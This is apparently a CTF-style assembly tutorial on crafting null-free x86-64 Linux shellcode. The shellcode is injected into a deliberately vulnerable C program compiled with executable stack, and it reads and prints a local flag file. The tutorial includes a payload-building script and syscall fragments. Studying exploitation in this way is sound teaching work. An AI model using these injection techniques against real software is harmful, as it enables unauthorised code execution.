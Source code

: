 # A Challenge
Given the following C code can we write input that will actually be executed and *do something* like read a flag?
```C 
#include <string.h>
#include <unistd.h>

int main(int argc, char* argv[]){
	char* code[250];
	memset(code, 0, 250);
	
	read(0, code, 250);
	((void*)())code)(); // treat the code as a pointer to a function and run it
	return 0;
}

```
**To make this work we have to compile with specific flags to enable executing code from the stack. DONT DO THIS IN ANY OTHER CIRCUMSTANCES THIS IS SPECIFICALLY NOT INCLUDED SO THESE KINDS OF SECURITY VULNERABILITIES ARE MITIGATED**
Saving this code as vuln1.c we can create a target vulnerable binary using: 
```sh
gcc -g -z execstack -fno-stack-protector vuln1.c -o vuln1
```

## Creating Shell code
Well, if we want to read a flag we will need to first open a file, read it, and then write to STDOUT. 
We can start trying to craft a program in assembly to do exactly this, somewhat like the cat.asm program from 0x1.

And if we want any of this to happen when we pipe a raw stream of bits into the program we will need to manipulate the 
compiled and linked assembly. 

This kind of code is often called **shellcode** and it has unique qualities. For one, shell code has to be position
independent. Since we have no control of whats happening before our code is injected it must keep track of itself 
so as to not care about things like hardcoded or specific offsets in memory which will change randomly. 

Shellcode must also have null bytes removed, otherwise our stream of bits will have a NULL termination somewhere in it and 
will be incorrectly treated as a [string](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html)

I write a small shell script for testing out different Assembly, take the compiled output and remove the NULL bytes,
write this data to a "payload" file, and then pipe that payload into the vuln1 program:

```bash
#!/bin/bash

binaryPayload=$1
targetBinary=$2

nasm -f elf64 $1 -o runme.o
ld -s runme.o -o runme
rm runme.o

shellcode=$(objdump -d runme | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/')

echo 'open("payload","wb").write(b'"'"$shellcode"'"')' >> maker.py
python3 maker.py 
rm maker.py

# now pipe the shell code into our target and trace the system calls with strace
cat payload | strace ./$targetBinary
#EOF
```

Before reading a flag maybe lets try something simple, like.... printing a message to the console? 
We wrote code for echoing user supplied arguments in 0x1, but this is a bit different (also 64bit now). 

First thing we need to do is move the bytes of our message into memory. The write syscall is exepecting 
a pointer to our message to be in rdi. The rdx register needs to hold the length of our output. 
We also need to put out file descriptor for STDOUT (just 1) into rbx, and then move the value for the WRITE
syscall into rax. So can we try this?: 
```nasm
section .text
	global _start 
	
_start: 
	; move our message into memory
	xor rdi, rdi
	xor rcx, rcx 
	add rdi, 0x33323130 ;'0123'
	mov [rsi], rdi
	; the write syscall
	mov rdx, 5
	mov rax, 1
	mov rdi, 1
	syscall
	; exit
	xor rax, rax
	add al, 60
	syscall
```

*Lets try out our testshell script and save this as echo.asm:*


![echooo](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/helloShell.png)

By the way to figure out which registers need which arguments for every syscall you can find a table like this 

![syscalls](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/syscall_conventions.png)

from a website like [this](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Awesome it worked! Okay so how about trying to read a flag or something?... more syscalls xD 

This one required a bit of thinking, because unlike the cat.asm program in 0x2 we can't setup
a local buffer to read into.  

First we meed to move the name of the file "flag.txt" into memory, and open it (Remember our byte order must be reversed because of how data is stored and read from the stack). 
That should be similar to the cat.asm program but slightly borrowing from what we just did: 
```nasm
_start: 
	xor rdi, rdi
	xor rcx, rcx
	mov rdi, 0x7478742e67616c66 	;txt.galf 
	mov [rdx], rsi
	xchg rdi, rdx
```
So we already have our filename now in rdi, now we just need to move the READ syscall number (2) into RAX and the file permissions mask into RDX
```nasm
	add al, 2
	xor rsi, rsi 
	mov rdx, 0777o
```
If were to just add an exit after this we should be able to see in strace whether we've opened 
the correct file for reading though: 

![missingNull](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/openFlagNoNullTermination.png)


Ahh intersting, the filename is getting mangled somehow. Well flag.txt is 8 bytes,
and at 9th we have a f instead of a null byte. Well f in hex is 0x66, so lets just subtract that value:

![fopen](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FixingFileOpen.png)

**AWESOME IT WORKED!** 

So it looks like now we need to move the pointer to the file we just opened into rdi. Well using GDB I can see that its left in rax after the syscall.
Because we can't create a local buffer we could just use the space of the filename we created to hold the contents of what we read from the file?
So lets move that for the stack into rsi. Finally we need to move the length of the message into rdx (we made the flag file so we know its 27 bytes): 

![fileRead](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FileRead.png)

**AYYY IT WORKED!** 

Okay now we just need to print the result! We can do that with the write syscall, which expects rdi to have pointer file (in this case STDOUT or 1).


Lets take a look at how we can debug this from GDB, here we can see the disassembly of the vuln1 main function:

![disass](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/disassMain.png) 

And also set a breakpoint for where our code will be called. We can run out program and pipe in the results from "payload" file using this syntax:
`r < payload` in the GDB terminal.

From here we can use stepi once to hop into our shellcode! 

![gdb](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/StepIn.png)

Okay now lets trying to use this visibilty to figure out how we can close the loop and actually write the contents of this flag file out. 
Stepping through our shellcode we can see that after the READ syscall we have the flag contents in RSI, which is already where we need our pointer to be for the WRITE CALL! 
The size is already in RDX from the READ call (which is the same place as WRITE), so all we need to do is:
	- Adjust RAX to be 1 for the WRITE syscall
	- change the file descriptor in RDI to 1 now because we want to write to STDOUT (before we read from an actual file)

![soClose](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/SoClose.png) 

well looking at GDB we can see RAX is 0x1b, so lets just subtract 0x1a. And then we can move 1 into rdi. And Voila!

![yay](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/success.png)
